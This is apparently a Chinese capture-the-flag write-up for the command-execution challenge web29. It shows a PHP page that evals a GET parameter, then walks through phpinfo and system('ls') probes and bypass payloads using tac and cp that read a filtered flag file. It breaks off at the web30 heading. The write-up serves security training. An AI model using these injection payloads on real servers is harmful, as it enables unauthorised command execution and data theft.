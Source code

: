 # Web入门

**Web方向主打的就是一个经验积累。**

## 命令执行

**贴出的源代码均已去掉注释，太影响排版了**

### web29

命令执行，需要严格的过滤

贴上网站源代码

```
<?php



error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

原理分析：获得一个名为”c“的GET请求，若这个请求中没有”flag“字样，则将这个GET请求当作一段PHP命令直接执行。

首先考虑扫一下目录，发现了一个flag.php可以直接访问，然而网站的过滤不允许。

先构建?c=phpinfo();调出了php介绍页面，发现PHP版本为7.3.11。同时服务器使用的是linux系统。这里没有找到flag。

先考虑使用system函数实现命令的执行，构造?c=system("ls");作为测试，发现成功了，网站给出可执行的文件分别为index.php和flag.php，其中默认显示的为index.php。

对于flag.php的访问，可以考虑使用f*，或者在linux系统下插入’‘，”“，\ ("\ "可能会被浏览器强行改为/，小心)来实现绕过。

接下来尝试使用?c=echo `tac f""lag.php`;成功得到flag

参考payload:?c=echo `tac f""lag.php`;

#### web29更好的解法

如果选择将flag.php内容先复制到另一个文件里，然后再直接访问这个文件，可以得到一个排版更好的内容。

参考payload:?c=echo `cp f* 1.txt`;然后直接访问1.txt即可。





### web30

